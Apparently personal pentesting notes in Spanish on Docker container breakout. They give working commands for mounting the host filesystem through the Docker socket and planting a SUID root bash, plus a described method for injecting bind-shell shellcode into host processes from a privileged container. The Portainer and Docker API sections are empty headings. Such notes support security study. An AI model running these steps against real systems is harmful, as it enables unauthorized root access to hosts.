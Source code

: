 #Escalada #DockerBreakout
###### Definición
Son técnicas para abusar de Docker con el objetivo de elevar nuestros privilegios de usuario y conseguir escapar del contenedor hacia la maquina host.

###### Explotación
Usaremos cuatro técnicas diferentes:
-  Uso de monturas en el despliegue de contenedores para acceder a archivos privilegiados del sistema host.
		Cuando nosotros llamamos a Docker hay un recurso en el sistema llamado Unix Socket File que permite comunicarse con el demonio(daemon) de Docker que se ubica en `/var/run/docker.sock`, cuando el demonio esta activo nos permite interactuar con Docker.
		Esto nos permite que una vez ganado acceso  a un sistema e identificado un servicio corriendo en un Docker y vemos que tiene el socket de Docker y nos deja crear contenedores podemos crear un nuevo contenedor jugando con monturas.
		Crearemos un nuevo contenedor por ejemplo: `docker pull ubuntu:latest`
		Replicamos la raíz de la maquina host con monturas `docker run --rm -dit -v /:/mnt/root --name ubuntuServer ubuntu`
		Ejecutamos el contenedor `docker exec -it ubuntuServer bash`
		Una vez nos encontremos dentro del contenedor si navegamos a `/mnt/root/bin` y le damos permisos de SUID a bash `chmod u+s bash` 
		En la maquina host usando el comando `bash -p` obtendremos una shell como root.

- Despliegue de contenedores PID y PRIVILEGED
		Si el contenedor ha sido levantado con `--pid=host` o `--privileged` podemos ver todos los procesos de la maquina host en la maquina Docker, si al ver los procesos con `ps -faux` y vemos algún proceso ejecutando como root se puede inyectar un shellcode a través del proceso para que cree un nuevo subproceso y este ejecute un comando.
		La siguiente herramienta nos permite inyectar un proceso en la memoria. 
		https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 
		Hay que modificar donde pone `SHELLCODE_SIZE` para saber el tamaño que le pertenece buscamos en el navegador `<SO> <Arquitectura> bind shell shellcode esploit db`,
		Además hay que modificar el shellcode de la herramienta por el que nos otorgue `exploitdb`.
		

- Uso de Portainer

- Abuso de API de Docker (port: 2375)